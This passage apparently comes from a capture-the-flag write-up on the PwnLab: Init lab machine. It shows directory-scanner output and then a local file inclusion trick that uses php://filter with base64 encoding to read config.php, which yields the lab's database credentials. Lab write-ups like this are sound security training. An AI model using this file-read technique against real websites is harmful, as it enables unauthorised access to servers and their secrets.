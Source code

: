 ```bash
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon May  4 16:47:05 2020
URL_BASE: http://192.168.56.115/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.115/ ----
==> DIRECTORY: http://192.168.56.115/images/                                                                                                                                  
+ http://192.168.56.115/index.php (CODE:200|SIZE:332)                                                                                                                         
+ http://192.168.56.115/server-status (CODE:403|SIZE:302)                                                                                                                     
==> DIRECTORY: http://192.168.56.115/upload/                                                                                                                                  

---- Entering directory: http://192.168.56.115/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.115/upload/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon May  4 16:47:06 2020
DOWNLOADED: 4612 - FOUND: 2
```

I investigated the other services running on the target's machine, but since there were so few of them and since I didn't find anything there either, I grew more and more convinced that the website was my way in. In almost all of the similar challenges I've done so far, the ones that hosted websites usually did so for a reason. After all, there's simply so much attack surface on websites that it's not completely unlike real scenario's either.

What stood out to me was the `?page=` parameter, which is always a possible candidate for Local File Inclusion (LFI) or command injection. Using an LFI cheatsheet that I saved a while ago, I started enumerating. After a while I finally found something - using LFI i could view the `config.php` file by using `php://filter` and `base64` encoding the output:

![alt]({{ site.url }}{{ site.baseurl }}/images/pwnlabinit_url.png)

```bash
kali@kali:~$ echo "PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+" | base64 -d
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```
